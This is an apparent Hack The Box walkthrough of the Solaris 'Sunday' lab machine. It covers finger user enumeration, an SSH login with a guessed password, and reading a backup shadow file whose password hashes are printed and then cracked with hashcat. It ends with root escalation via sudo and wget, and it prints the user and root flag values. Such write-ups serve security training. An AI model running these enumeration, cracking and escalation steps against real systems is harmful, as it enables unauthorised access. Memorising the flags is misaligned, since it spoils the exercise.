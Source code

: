 Machine: https://app.hackthebox.com/machines/136	
IP: 10.10.10.76

# Enumeration

Port 79

finger service (Old service)

The finger daemon listens on port 79, and is really a relic of a time when computers were far too trusting and open. It provides status reports on logged in users. It can also provide details about a specific user and when they last logged in and from where.

To tell currently logged in users:

`finger @10.10.10.76`

Port 111
Port 515
Port 6787
Port 22022 (SSH)

```
SSH-2.0-OpenSSH_8.4
Invalid SSH identification string.
```

# Exploitation

http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz

Using this tool, we can brute force to find existing user on through finger service.

```bash
sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4    
```

User:

```
sunny
sammy
```

These 2 users have sessions on the target.

Try to login as sunny user via SSH

To save time brute forcing, `sunny:sunday`

# Post-Exploitation

Banner after logged in

`Oracle Solaris 11.4.42.111.0                  Assembled December 2021`

History
```
sunny@sunday:~$ history
    1  su -
    2  su -
    3  cat /etc/resolv.conf 
    4  su -
    5  ps auxwww|grep overwrite
    6  su -
    7  sudo -l
    8  sudo /root/troll
    9  ls /backup
   10  ls -l /backup
   11  cat /backup/shadow.backup
   12  sudo /root/troll
   13  sudo /root/troll
   14  su -
   15  sudo -l
   16  sudo /root/troll
   17  ps auxwww
   18  ps auxwww
   19  ps auxwww
   20  top
   21  top
   22  top
   23  ps auxwww|grep overwrite
   24  su -
   25  su -
   26  cat /etc/resolv.conf 
   27  ps auxwww|grep over
   28  sudo -l
   29  sudo /root/troll
   30  sudo /root/troll
   31  sudo /root/troll
   32  sudo /root/troll
```

One line stands out

`ls -l /backup`

/backup/shadow.backup

```
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

/backup/agent22.backup
```
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Crack with hascat

`hashcat -m 7400 '$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB' /usr/share/wordlists/rockyou.txt`

`sammy:cooldude!`

Login as sammy through SSH (Port 22022)

user.txt 3490af4aa407c2c6864ad4a4634148e9

`find / -perm -4000 2>/dev/null`

some SUID binaries can be used to get to root

```
/usr/bin/sudo
/usr/bin/su
```

Get root

`sudo su` or `sudo sudo /bin/bash`

Or by checking `sudo -l`

`(root) NOPASSWD: /usr/bin/wget`

https://gtfobins.github.io/gtfobins/wget/#sudo

root.txt 46060b09da8ecb2a5242e56948466cbb

# Beyond Root

https://0xdf.gitlab.io/2018/09/29/htb-sunday.html


